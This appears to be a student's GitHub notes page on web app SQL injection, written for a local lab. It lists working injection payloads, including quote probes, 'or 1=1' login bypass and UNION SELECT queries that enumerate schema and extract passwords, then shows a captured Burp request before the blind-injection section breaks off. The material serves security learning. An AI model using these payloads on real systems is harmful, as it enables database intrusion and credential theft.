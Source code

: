 # Web App - SQL Injection

> - [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

➡️ A **SQL injection** attack consist of an injection of a (malicious) SQL query via the user input from the client to the application, allowing attackers to read, modify, or delete database data, execute administrative operations, access files, or issue OS commands.

---

## Injection0x01 - UNION

```bash
# Basic SQLi

# Try some Username inputs like
jeremy
jeremy'
jeremy"
jeremy j
# special characters can break the SQL query

jeremy' or 1=1#
jeremy' or 1=1-- -
# 1=1 statement is always true -> the result is always true
# anything after #, -- -, etc, will be ignored

# UNION
jeremy' union select null#
jeremy' union select null,null,null#
jeremy' union select null,null,version()#
jeremy' union select null,null,table_name from information_schema.tables#
jeremy' union select null,null,column_name from information_schema.columns#

jeremy' union select null,null,password from injection0x01#
```

---

## Injection0x02 - Blind

- Run BurpSuite, set `http://localhost/` as project (target) **Scope** and login as `jeremy:jeremy` at `http://localhost/labs/i0x02.php`
- Check the **Request** and **Response** in the BurpSuite HTTP history

```bash
# Request
POST /labs/i0x02.php HTTP/1.1
Host: localhost
Content-Length: 31
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
```
